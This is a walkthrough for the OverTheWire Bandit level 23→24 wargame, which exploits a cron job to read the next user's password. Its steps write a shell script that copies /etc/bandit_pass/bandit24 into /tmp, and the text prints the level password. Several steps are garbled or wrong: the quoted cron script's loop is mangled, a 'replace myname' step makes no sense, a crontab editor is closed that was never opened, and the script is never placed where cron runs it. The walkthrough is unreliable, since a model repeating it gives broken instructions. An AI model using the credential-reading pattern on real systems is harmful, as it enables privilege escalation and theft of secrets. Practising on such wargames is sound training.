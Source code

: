 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

- `cron`
- `crontab`
- `crontab(5)` (use “man 5 crontab” to access this)

# Answer

To solve Bandit Level 23 → Level 24, you'll need to create a shell script and have it executed by cron. Follow these steps:

1.  Log into the server for Level 23 using SSH. The command is:

    ```bash
    ssh bandit23@bandit.labs.overthewire.org -p 2220
    ```

    Enter the password when prompted (the password is the one you found in Level 22).

2.  Check the contents of the `/etc/cron.d/cronjob_bandit24` directory to find the configuration for the cron job:

    ```bash
    cat /etc/cron.d/cronjob_bandit24
    ```

3.  Look for the line that specifies the command being executed and examine it to see what it does.

    ```bash
    bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    ```

4.  The cron configuration may use a script or directly specify a command. Identify the command that is being executed.

5.  Concatenate the script directory to identify its purpose:

    ```bash
    cat /usr/bin/cronjob_bandit24.sh

    ```

6.  Examine the output:

    ```bash
     #!/bin/bash

     myname=$(whoami)

     cd /var/spool/$myname/foo
     echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
     for i in _ ._;
     do
     if [ "$i" != "." -a "$i" != ".." ];
     then
     echo "Handling $i"
         owner="$(stat --format "%U" ./$i)"
         if [ "${owner}" = "bandit23" ]; then
     timeout -s 9 60 ./$i
             fi
             rm -f ./$i
     fi
     done
    ```

7.  Replace `myname` variable from bandit23 to bandit24:

    ```bash
    myname=bandit24
    ```

8.  Execute the script below to output the password of `bandit24` to the temporary directory.

    ```bash

    echo "cat /etc/bandit_pass/bandit24 > /tmp/password.txt" > get_pass.sh

    ```

9.  Make the script executable:

    ```bash
    chmod 777 get_pass.sh
    ```

10. Save and exit the crontab editor.

11. Wait for a minute, and then check if your script was executed. You may want to check the output. If you want to keep a copy of the output, you can redirect it to a file:

12. Now, you should be able to retrieve the password for Level 24. The password is typically stored in the `/tmp/` directory or the `/var/spool` directory.

    ```bash
    cat /tmp/password.txt
    ```

    ```bash
    VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
    ```

13. Once you have the password, use it to log in to Level 24 using SSH:

    ```bash
    ssh bandit24@bandit.labs.overthewire.org -p 2220
    ```

    Enter the password when prompted.
